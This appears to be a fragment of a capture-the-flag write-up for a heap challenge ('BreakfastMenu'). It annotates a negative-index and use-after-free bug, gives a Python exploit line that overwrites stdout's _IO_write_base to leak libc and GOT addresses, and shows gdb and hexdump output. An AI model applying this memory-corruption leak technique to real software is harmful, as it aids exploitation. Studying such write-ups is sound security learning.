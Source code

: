 ```c
    if (local_18 < local_14) {                          <--- Not checking for negative index values
      free(*(void **)(orders + (long)local_18 * 8));    <--- Not clearing the pointer after free
    }
    else {
      puts("Order doesn\'t exist!!!");
      fflush(stdout);
    }
```

In the local environment, we can leak the `libc` address as shown below by rewriting `_IO_write_base` to `0x602010`, but this was not possible in the server environment.

```python
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1c+p64(0x602010))
```

```
gdb-peda$ p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = 0xfbad2a84, 
    _IO_read_ptr = 0x603260, 
    _IO_read_end = 0x603260, 
    _IO_read_base = 0x603260, 
    _IO_write_base = 0x603260,  <-　Rewriting this value
    _IO_write_ptr = 0x603260, 
    _IO_write_end = 0x603260, 
    _IO_buf_base = 0x603260, 
    _IO_buf_end = 0x603660, 
```

An example of outputting the `GOT` area in the local environment. I don't know the cause, but the server environment doesn't work.
```
    00000000  73 6f 20 79  6f 75 20 77  61 6e 74 65  64 20 87 3a  │so y│ou w│ante│d ·:│
    00000010  ad fb 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    00000020  01 01 01 01  01 01 01 01  01 01 01 01  01 01 10 20  │····│····│····│··· │
    00000030  60 f0 a8 de  f7 ff 7f 00  00 c6 06 40  00 00 00 00  │`···│····│···@│····│
    00000040  00 00 82 a9  f7 ff 7f 00  00 70 29 a6  f7 ff 7f 00  │····│····│·p)·│····│
    00000050  00 40 6e a4  f7 ff 7f 00  00 10 0e b7  f7 ff 7f 00  │·@n·│····│····│····│
    00000060  00 d0 0a a6  f7 ff 7f 00  00 a0 9e a6  f7 ff 7f 00  │····│····│····│····│
    00000070  00 36 07 40  00 00 00 00  00 90 07 a6  f7 ff 7f 00  │·6·@│····│····│····│
    00000080  00 70 de a5  f7 ff 7f 00  00 66 07 40  00 00 00 00  │·p··│····│·f·@│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    000000a0  00 60 e7 dc  f7 ff 7f 00  00 00 00 00  00 00 00 00  │·`··│····│····│····│
    000000b0  00 00 da dc  f7 ff 7f 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    000000c0  00 87 3a ad  fb 01 01 01  01 01 01 01  01 01 01 01  │··:·│····│····│····│
    000000d0  01 01 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    000000e0  01 10 20 60  00 00 00 00  00 0a 00 00  00 00 00 00  │·· `│····│····│····│
    000000f0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```

The following is an excerpt from the `Dockerfile`, which may be due to running on `nsjail`.
```
    socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"nsjail --config /home/user/nsjail.cfg -- /home/user/BreakfastMenu"
```
